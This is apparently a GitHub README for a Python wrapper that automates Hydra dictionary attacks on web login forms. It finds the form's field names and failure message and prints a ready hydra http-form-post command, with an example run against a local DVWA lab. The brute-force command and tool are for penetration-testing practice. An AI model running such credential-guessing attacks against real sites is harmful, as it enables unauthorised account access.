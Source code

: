 # HydraAutomation
Trying to automate hydra dic attacks against web pages so that the user doesn't have to go into the DOM in order to find the variable names for ^USER^ ,^PASS^, the form method, and failure response.

Currently, the program is only suited for http-form-post attacks and I have been using DVWA as my lab for testing.

The program is a wrapper so it requires hydra and of course Python to be preinstalled.

Run the program on the command line 
>Python HydraAutomation.py URLOrIPAddress

Example:

>Python HydraAutomation.py http://localhost/DVWA-1.0.8/login.php
>--------------------------------------------
>HYDRA COMMAND AUTOMATER RESULTS:
>"login.php:
>username=^USER^
>password=^PASS^
>:Login failed"
>
>hydra http://localhost/DVWA-1.0.8/login.php http-form-post "login.php:username=^USER^&password=^PASS^:Login failed" -L user.txt -P >pass.txt -t 10
